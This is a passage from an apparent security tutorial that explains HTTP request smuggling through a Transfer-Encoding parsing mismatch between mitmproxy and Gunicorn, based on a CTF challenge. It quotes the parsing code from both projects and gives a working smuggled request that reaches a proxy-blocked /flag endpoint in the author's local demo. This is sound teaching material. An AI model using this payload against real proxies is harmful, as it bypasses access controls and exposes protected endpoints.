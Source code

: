 The proxy uses the content length 11 to decide the body length. Of course line breaks are also included in the length of the body, so the real body is `0\n\nsmuggled` which is 11 characters long. The proxy thinks this is a single message which includes smuggled in the body, but the server thinks otherwise. The server uses chunked encoding and it will thus think the body ends with the `0`, because that's how chunked encoding works. The server will think `smuggled` is part of the next message, which in this case is not a valid HTTP message and will be ignored. This doesn't seem harmful at first, but in some setups this could be abused to smuggle requests. How this is done will be shown in the next paragraph with a possible real-life scenario.

## Request smuggling using Mitmproxy and Gunicorn

The last paragraph has the assumption that a proxy and server intepretate the headers differently. This [blog](https://blog.deteact.com/gunicorn-http-request-smuggling) describes a writeup for a CTF where it was necessary to abuse request smuggling. In the CTF challenge the setup used mitmproxy as the proxy and Gunicorn for the server. If you look at the code how they implement the parsing of the `Transfer-Encoding` header the issue is quite easy to spot:

```python
# from https://github.com/mitmproxy/mitmproxy/blob/master/mitmproxy/net/http/http1/read.py#L78
    if "chunked" in headers.get("transfer-encoding", "").lower():
        return None
```

```python
# from https://github.com/benoitc/gunicorn/blob/master/gunicorn/http/message.py#L134
    elif name == "TRANSFER-ENCODING":
        if value.lower() == "chunked":
            chunked = True
```

Mitmproxy checks whether `chunked` is in the header, while Gunicorn checks whether the whole value of the header matches `chunked`. So if we sent a header which has as value `chunkedasd`, mitmproxy will parse the body using chunked encoding, while Gunicorn will fall back on the content length.

The blogpost nicely describes how this can be exploited in the CTF, but I thought it would be better to simplify the setup and write my own exploit. In [this repository](https://github.com/p4k03n4t0r/http-request-smuggling-demo) I created this setup and the example to execute the request smuggling. The question still remains how can we abuse this mismatch between the proxy and the server? In the demo setup I made we have a `/flag` endpoint which returns a secret which is only reachable from within the network, because the proxy blocks the request:

```
> curl localhost:8002/flag
Forbidden, but nice try ;)
```

This check is done by the proxy by checking the path that is called, but this check doesn't do anything with the body. So we can make a request which looks as follows:

```
# Request
GET /hello HTTP/1.1
Host: 0.0.0.0:8002
Content-Length: 4
Transfer-Encoding: asdchunked

2a
GET /flag HTTP/1.1
Host: 0.0.0.0:8002


0

# Response
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Content-Length: 12

```